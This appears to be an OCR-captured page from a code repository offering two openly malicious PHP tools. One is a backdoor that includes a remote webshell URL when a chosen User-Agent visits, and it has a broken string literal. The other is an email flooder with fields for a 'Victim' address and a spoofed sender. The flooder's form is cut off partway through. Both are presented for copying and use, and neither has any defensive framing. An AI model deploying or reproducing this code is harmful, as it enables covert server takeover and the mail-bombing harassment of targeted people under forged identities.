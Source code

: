 ```php
    <?php
    $blackdoor = $_SERVER['HTTP_USER_AGENT']; 
    if($blackdoor == "PUT YOUR USER AGENT HERE) 
     { 
      @include('PUTTHEURLTOYOURWEBSHELLHERE'); 
     } 
    ?>
```

#### Email flooder in PHP  ####

If you want to just copy this and run it off a server, go ahead. Unfortunately most free PHP hosts don't allow you to send mail, but I guess you can run it off your localhost. You must have access to the sendmail binary on your system to run; it's just a matter of configuring php.ini, which I won't go into now. 

You need to have: 

1. a server 
2. basic knowledge of PHP 
3. knowledge on how to install/configure your PHP (pop quiz: should register_globals be kept on or off?)

```php
    <?php
       $spam= $_POST["spams"]; 
    // define number of spam cycles
       $iloled = $_POST["message"];
    // this is the message
       $email = $_POST["email"];
    // define recipient
       $rofl = $_POST["body"];
    // your message
       function head() {
          $sender = $_POST["sender"];
          $header = 'MIME-Version: 1.0 \r\n
       Content-type: text/html; charset=iso-8859-1 \r\n
       From: <' . $sender . '>';
          return($header);
       }
    // spoofed header. i found it easier to write it this way.
       if(isset($_POST["email"])) {
          for($i = 1; $i <= $spam; $i++){
             for($ii = 0; $ii <= $_POST["spams"]; $ii++){
                mail($_POST["email"], $iloled,$rofl,head());
             } // (the second for loop) defines one cycle
             echo "Done $i loops of $spam<br>"; //we're done
          }
       echo "Complete."; 
       }
       else {
     /* if the form isn't filled out show it. also, mess around with this  part any way you like. */
    ?>
    <form method="post" action="">
       Victim: <input type="text" size="28" name="email"><br>
       Message title: <input type="text" size="28"
     name="message"><br>
       Sender (spoof it): <input type="text" size="28"
     name="sender"><br>
       Message body: <textarea name="body" cols="28"
     rows="5"></textarea><br>
       Emails per cycle (default 10): <input type="text" size="28"
     name="spams" value="10"><br>
       Cycles (default 10):<input type="text" size="28"
```